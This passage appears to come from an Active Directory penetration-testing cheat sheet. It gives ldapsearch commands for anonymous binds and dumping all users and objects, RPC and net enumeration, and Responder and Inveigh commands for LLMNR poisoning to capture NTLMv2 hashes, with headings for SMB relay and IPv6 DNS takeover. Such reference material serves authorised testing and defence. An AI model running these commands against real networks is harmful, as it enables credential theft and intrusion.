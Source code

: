 	# Windows CMD
	net accounts
	
	# Rpcclient
	querydominfo
	```

### Null Authentication
- SMB Null Session and guest auth
- LDAP Anonymous Bind
```
ldapsearch -x -H ldap://dc-ip-here -s base namingcontexts

ldapsearch -x -H ldap://dc-ip-here -s base -b "" "(objectClass=*)" namingContexts


# Query all the objects in directory
ldapsearch -x -H ldap://dc-ip-here -D 'admin@contoso.org' -W -b 'DC=CONTOSO,DC=ORG' 'objectClass=*'

# dump all
ldapsearch -x -b "domainbase" "*"  -h <ip>

# query all users
ldapsearch -x -H ldap://dc-ip-here -D 'admin@contoso.org' -W -b 'DC=AD,DC=LAB' '(objectClass=user)'
```
- RPC Anonymous Authentication

### Network Protocol Exploits
- LLMNR Poisoning
	```
	# Linux
	sudo responder -i <interface> -wf -v
	
	# Windows C# version need to compile it before
	.\inveigh.exe
	GET NTLMV2UNIQUE
	GET NTLMV2USERNAMES
	
	```
- NBT-NS Poisoning
- SMB Relay Attacks
- Pass-Back Attacks
- PXE Boot Abuse
- IPv6 Attacks
  - IPv6 via DNS Takeover
